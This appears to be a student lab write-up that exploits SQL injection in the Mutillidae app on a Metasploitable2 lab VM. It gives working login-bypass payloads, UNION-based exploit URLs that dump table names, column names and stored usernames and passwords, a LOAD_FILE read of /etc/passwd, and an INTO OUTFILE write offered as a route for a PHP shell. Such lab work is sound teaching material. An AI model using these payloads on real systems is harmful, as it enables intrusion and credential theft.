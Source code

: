 # sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2
![eth8 1](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/650d4cad-5748-4069-bf1d-8cd499d4fce6)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.

![eth8 2](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/e86808fd-2a79-4efd-b782-a50ddcf2e7ca)
Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![eth 8 3](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/217765b3-d322-4406-9acf-efd1b91fef37)
Click on the menu Login/Register and register for an account

![eth 8 4](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/994b10c6-f9dc-4f86-9dfa-506e8e3c4be8)
Click on the link “Please register here”
![eth 8 5](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/89f0c530-eb54-4801-afe3-084748352b51)
Click on “Create Account” to display the following page: 
![eth 8 6](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/6e476216-6765-471a-975f-bf655e4d2225)
The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.
![eth 8 7](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/5142df6e-7f72-4ea0-9d67-84592c271940)
Click “Login”. The logged in page will show as below:
![eth 8 8](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/2310eabc-d4fd-4e9e-80eb-54955bb35f4e)
## Bypassing login field:
The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![eth8 9](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/94b8269e-49fa-49e8-a560-d399fcea9670)

Click the login button and you will see it enter into the administrator page.
## Union-based SQL injection:
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below: img
![eth8 10](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/d0bd94c2-7608-4c5e-814e-0d3f11556864)
![eth 8 11](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/06a06b44-98d2-4977-906f-a4a533ab7bfd)
![eth 8 11](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/33334541-8789-40eb-a38d-22b3b11c43f6)
![eth8 13](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/ea79fdde-b333-4f21-8750-0b7e7bd20be2)
![eth 8 14](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/9370ac48-4c90-4849-af4b-f807d959a88c)
From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![eth 8 15](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/d8b5f209-54a7-4e9c-a506-be4d04a092b9)
Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![eth 8 16](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/7c4d0179-0d0b-4de7-b23c-aa2c6c1d78f2)
After adding the order by 6 into the existing url , the following error statement will be obtained:
![eth 8 17](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/200b0f88-00af-4877-a112-c07dfc9ae425)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![eth 8 18](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/a6e24728-1238-41dd-bae2-f09b7b8a7db8)
As it is having 5 columns the query worked fine and it provides the correct result
![eth 8 19](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/532dffdf-3d42-40c6-b775-5b7429696bc8)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![eth 8 20](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/b6b69a95-b8a5-4fe9-bcff-4a7315f24769)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![eth 8 21](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/b93c11a0-a12c-4cab-87fc-fa521adf9d28)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![eth 8 22](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/2328344d-084c-4585-b51e-a9009d8b9b4a)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![eth 8 23](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/644d7f1c-3039-494b-a622-8799c41f3ebc)
The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![eth 8 24](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/618b3e09-dc41-494b-83b2-572dc28d5074)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![eth 8 25](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/d5c5fcd8-774b-4d38-8ee0-73b71cec39a0)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![eth 8 26](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/de94446f-a496-4fc6-9986-629eaac4536b)
## Reading and writing files on the web-server:
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![eth 8 27](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/9a7cf898-b0bd-458b-a945-7eab736b7f88)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
